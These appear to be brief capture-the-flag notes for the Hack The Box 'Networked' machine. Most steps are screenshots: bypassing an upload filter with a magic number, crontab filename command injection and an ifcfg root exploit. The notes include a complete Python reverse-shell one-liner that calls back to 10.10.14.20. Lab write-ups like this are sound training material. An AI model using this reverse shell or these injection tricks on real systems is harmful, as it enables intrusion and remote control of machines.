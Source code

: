 # Networked - 10.10.10.146

Created: June 18, 2021 9:24 PM

nmap:

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled.png)

pages found:

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%201.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%201.png)

from backup.tar we can inspect the upload.php and find out how to upload malware:

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%202.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%202.png)

in addition we need magic number

creating the file and uploading it to /upload.php

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%203.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%203.png)

with burp:

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%204.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%204.png)

inspecting the 'image' at /photos.php:

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%205.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%205.png)

reverse shell:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",4111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%206.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%206.png)

crontab and file in "guly" user home:

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%207.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%207.png)

we control "Value" varriable by the name of the file we create. by that we can use the "exec" command:

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%208.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%208.png)

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%209.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%209.png)

executable root file found:

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%2010.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%2010.png)

there's a known exploit for /etc/sysconfig/network/ifcfg involving chaining commands with space:

![Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%2011.png](Networked%20-%2010%2010%2010%20146%204011c376d0264b928900a1a8bcd58037/Untitled%2011.png)